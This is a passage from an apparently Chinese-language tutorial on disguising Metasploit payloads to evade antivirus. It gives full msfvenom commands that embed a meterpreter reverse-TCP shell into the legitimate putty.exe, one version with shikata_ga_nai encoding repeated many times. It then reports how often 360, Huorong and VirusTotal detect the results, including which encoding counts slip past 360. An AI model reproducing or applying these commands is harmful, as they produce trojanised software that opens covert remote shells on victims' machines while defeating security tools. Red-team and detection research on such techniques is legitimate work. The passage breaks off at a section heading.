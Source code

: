 这里使用一个正规的`putty.exe`作为被捆绑测试软件。

生成payload命令如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666  -x putty.exe  -f exe -o /mnt/hgfs/Share/payload3.exe
```

![image-20220526192124189](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261921270.png)

生成的两个文件对比，大小完全一样。能否免杀也和被捆绑exe有一定关系，可以选微软的一些工具作为模板exe程序。

![image-20220526192251559](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261922615.png)

360能查杀，火绒不能查杀。但是识别时间比前两种方法久一些（原po火绒也能查杀）。

在virustotal.com上查杀率为15/69（原po为39/69）。

360：

![image-20220526192548112](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261925172.png)

VT：

![image-20220526193243216](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261932310.png)



### msf自捆绑+编码(VT查杀率16/69)

将上面的编码和捆绑两种方法结合一下进行尝试：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -e x86/shikata_ga_nai -x putty.exe  -i 15 -f exe -o /mnt/hgfs/Share/payload4.exe
```

![image-20220526193359812](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261933974.png)

与上一种方法对比，大小完全一样。

![image-20220526193552798](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261935858.png)

可修改-i编码次数，编码次数越多，生成的payload越可能免杀，经测试，编码5次和6次可免杀360。

360能查杀，火绒不能查杀。但是识别时间比前两种方法久一些（原po火绒动态静态均能查杀，而360不会报毒）。

在virustotal.com上查杀率为16/69（原po为35/69）。

360：

![image-20220526194032466](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261940527.png)

VT：

![image-20220526193813109](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261938216.png)

### msfvenom多重编码(VT查杀率28/67)
